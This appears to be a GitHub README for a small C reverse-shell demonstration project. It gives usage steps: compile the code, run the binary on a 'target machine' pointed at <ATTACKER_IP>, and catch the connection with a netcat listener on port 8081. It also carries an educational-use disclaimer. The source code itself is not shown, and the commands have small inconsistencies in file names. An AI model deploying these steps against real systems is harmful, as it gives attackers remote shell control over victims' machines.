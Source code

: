 ﻿# Simple Reverse Shell Example

## Overview

This small yet powerful project provides a practical demonstration of a basic reverse shell implementation in C.

A reverse shell is a fundamental concept in network security and penetration testing, allowing an attacker to gain remote control over a compromised system. This example showcases the mechanics of a minimalistic reverse shell, making it an excellent starting point for understanding the core principles behind such exploits.

## Usage

1. Clone the repository to your local machine:

   ```bash
   git clone https://github.com/DavidVardzelian/RevShellExmp.git
2. Move to folder and compile C code:

   ```bash
   cd RevShellExmp
   gcc ReversR.c -o ReverseR
3. Run the reverse shell on the target machine:
	```bash
	./ReversR.exe <ATTACKER_IP>
4. Set up the listener on your control machine:
	```bash
	nc -l -p 8081
Once the target machine connects, you will have a remote shell to execute commands.

## Note of Caution

While this example is meant solely for educational purposes and ethical use in controlled environments, it is crucial to acknowledge the potential misuse of such knowledge. The developers and maintainers of this repository discourage any unauthorized or malicious activities using this code and emphasize responsible and legal usage of the knowledge gained from it.
## Disclaimer

This repository and its maintainers are not responsible for any improper usage of the code provided herein. Use this example responsibly and adhere to all applicable laws and regulations in your jurisdiction.
